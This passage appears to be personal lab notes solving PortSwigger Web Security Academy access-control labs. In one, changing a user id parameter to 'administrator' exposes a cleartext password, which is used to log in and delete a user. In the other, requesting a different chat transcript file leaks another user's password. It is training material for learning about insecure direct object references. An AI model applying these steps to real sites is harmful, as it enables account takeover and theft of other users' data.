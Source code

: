 ```bash
Note in the response you can see the cleartext password
Note the end-point:

https://ac011f1f1e0642f5c0b4c753004400dd.web-security-academy.net/my-account?id=wiener

Change to:

https://ac011f1f1e0642f5c0b4c753004400dd.web-security-academy.net/my-account?id=administrator

Response:

HTTP/1.1 200 OK

'Your username is: administrator'

<input required type=password name=password value='jluw9vw1ssrk9pvaokv2'/>

Login as administrator:jluw9vw1ssrk9pvaokv2

Delete the username "carlos"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514005259.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514010344.png)

### Insecure direct object references
```bash

# This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

# Solve the lab by finding the password for the user carlos, and logging into their account. 

Go to: "Live chat"
Send any message
Note the end-point:

GET /download-transcript/2.txt HTTP/1.1

Response:

"Whatever you sent"

Send to repeater
Change:

GET /download-transcript/2.txt HTTP/1.1

to

GET /download-transcript/1.txt HTTP/1.1

The response contains the password

```
